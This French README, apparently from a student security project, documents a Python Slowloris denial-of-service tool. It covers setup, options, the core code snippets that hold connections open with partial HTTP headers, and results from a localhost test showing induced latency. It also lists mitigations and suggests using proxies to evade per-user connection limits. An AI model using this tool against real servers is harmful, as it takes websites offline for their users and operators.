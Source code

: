 # Python pour la securite
  - ### [1. Introduction](#1-Introduction)
  - ### [2. Fonctionnement](#2-Fonctionnement)
  - ### [3. Resultat](#3-Resultat)
  - ### [4. Difficultees rencontrees](#4-Difficultees-rencontrees)
  - ### [5. Ameliorations](#5-Ameliorations)
  - ### [6. Conclustion](#6-Conclusion)

---
## 1. Introduction

 L'attaque slow loris permet de faire un ddos sur un serveur en se servant que d'une seule machine. 
 Slowloris essaie de garder le maximum de connexions ouvertes avec le webserver cible et essaie de les garder ouvertes aussi longtemps que possible. 
 Dès que le slowloris a ouvert une connection il va garder la garder ouverte en envoyant des requêtes incomplètes qu'il va compléter lentement au fur et à mesure mais ne les finira jamais. 
 Les serveurs affectés verront leur nombre maximum de connections atteint et peuvent refuser les nouvelles connections d'utilisateurs.
Les serveurs majoritairement touchés par l'attaque slowloris sont:
- Apache 1.x and 2.x
- dhttpd
- Flask

Il existe des modules pour apache qui permetent de réduire la chance d'une attaque slowloris tel que: 
- mod_limitipconn
- mod_qos, mod_evasive
- mod security
- mod_noloris
- mod_antiloris

Il existe d'autres méthodes pour se protéger tel qu'installer un:
- reverse proxy
- firewall
- load balancer
- content switches

Si aucune de ces solutions n'est envisageable il est toujours possible de placer son webserver derrière un nginx ou lighthttpd qui ne sont pas affectés par cette attaque.

---
## 2. Fonctionnement
Afin de faire fonctionner ce programme, il est necessaire d'installer certaines dependances. Les commandes a executer pour avoir un environnement d'execution sont les suivantes :
 * `virtualenv env`
 * `source env/bin/activate`
 * `pip install -r requirements.txt`

 Ensuite il est possible de choisir certaines options:
 - a: Host to perform attack on, default localhost
 - p: Port of the server, default = 80
 - s: Max socket to use
 - d: Debug mode


 Dans un premier temps, il est necessaire de recuperer le type de serveur que l'on souhaite attaquer : 
 * Par exemple, un serveur apache 1.x/2.x permettra une attaque optimal.
 * A contrario, attaquer un WebServeur tournant avec le framework NodeJS a partir de la version 8 est inutile

 Pour recuper le type de serveur, on envoie une requete get : </br>
 * `sock.send("GET / HTTP/1.1\r\n\r\n".encode("ascii"))`</br>

Puis on analyse le retour </br>
*  `HTTP/1.1 400 Bad Request
Date: Wed, 10 Jul 2019 16:18:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1
`

Pour l'initialisation des sockets on envoie trois requêtes:
```Python
s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000).encode("utf-8"))
s.send("User-Agent: {}\r\n".format(ua.USER_AGENT[random.randin(0,29)]).encode("utf-8"))
s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5".encode("utf-8"))
```
Dans l'ordre:
- La première initialise la connection
- La deuxième envoie le user agent utilisé choisi aléatoirement dans la pool des user agents.
- La troisième dit quelles sont les langues acceptées.

-> A l'initialisation le slowloris va essayer d'initier autant de connections que l'on a demandé.

Il va ensuite les garder en vie en les complétant toutes les 15 secondes avec:
```Python
s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
```
Il va ensuite essayer à nouveau d'ouvrir des connections jusqu'à atteindre la limite que l'on a fixé.
 ```Python
 for _ in range(self.target_info.sockets_number - len(self.sockets_list)):
    try:
        s = self.init_socks()
        if s:
            self.sockets_list.append(s)
```
Par la suite le slowloris va calculer la latence en faisant une requête dans un thread à part.

```Python
response = requests.get(self.url).elapsed.total_seconds()
```
La request fait un get sur l'host rentree par l'utilisateur et recupere le temps entre l'envoie et la reponse de la requete.


---

## 3. Resultat
Les resultat ci dessous ont ete effectue sur un serveur Apache avec la configuration initiale.</br>
Le programme fut lance avec la commande suivante : `python src/main.py -a 127.0.0.1 -s 1000`


Dans un premier temps la console nous affiche que l'on se trouvre sur un seveur Apache, ce qui est parfait pour notre attaque : 
> `[127.0.0.1] server running with Apache, best configuartion for this attack`

Dans un second temps, on affiche la latence initial :
> `[Latency] -- 0.002142`

On remarque donc que le temps de latence est relativement faible. </br></br>
Ensuite on initialise le maximum de socket 
> `279 connections 1000 initialised`

On remarque ici que l'on a reussi a initialiser seulement 279 sockets sur les 1000 prevu, on essaie maintenant de les garder ouvertes le plus longtemps possible.

Apres 15 secondes, on essaie d'en recreer afin d'atteindre les 1000
> `try recreating sockets`

Apres 5 minutes, on peut voir que l'on a 408 sockets qui sont ouvertes
> ` 408 connections 1000 initialised `

On remarque aussi une latence de 15 secondes, preuve que le deni de service fonctionne.
> `[Latency] -- 15.80608   `

Apres 10 minutes, on stop le programme, on peut donc voir une latence moyenne de 14.7 secondes.
> `Average latency = 14.702567199999999`


---

[Just a moment...](https://cdn1.imggmi.com/uploads/2019/7/10/cca68682fe9aa44435fa77cb9439f596-full.png)
On peut voir en haut le spinner qui tourne et en bas la requête connexion

Egalement quand on essaie de lancer un autre slowloris sur le même serveur alors qu'il y a déjà un slowloris qui tourne celui-ci ne marche pas car il n'arrive pas à établir une nouvelle connection.

```Bash
(env) ➜  slowAttack git:(master) ✗ python src/main.py -a 127.0.0.1
19:30:51 - Slow Loris Attack Started
19:30:54 - No Webserver detected, please verify your target adresse
```


## 4. Difficultees rencontrees

La principale difficultees fut d'ordre materiel, en essayant l'attaque sur un serveur distant, la box internet ma "banni", il etait impossible d'acceder a aucun site web en dehors, impossible d'utiliser un dns.

La seconde difficultee fut de comprendre que les serveur nodes n'etaient pas affectees. Le programme semblait fonctionel mais aucun ralentissement ne fut observé. Ensuite installer un serveur apache est un defi de taille.

Hormis cela, aucune difficultée majeures ne fut rencontrées.


## 5. Ameliorations
Les améliorations possibles sont nombreuses:
- Détection automatique du serveur et optimisation des paramètres.
- Détection automatique du timeout serveur pour les requêtes.
- Détection du nombre de connection maximum du serveur pour pouvoir choisir le niveau de ddos que l'on veut (un peu, beaucoup, moyen)
- Utilisation de proxy pour permettre d'ouvrir un plus grand nombre de connections quand il y a un nombre limité par utilisateur.

## 6. Conclusion
>L'attaque du slowloris est une attaque très intéressante si jamais le serveur web est vulnérable à cette attaque car elle permet à un seul ordinateur de facilement ddos un serveur.
Cependant il s'avère qui est facile de se protéger face à ses attaques en implémentant quelques règles: nombres de socket par utilisateur limités, firewall, reverse proxy, etc.
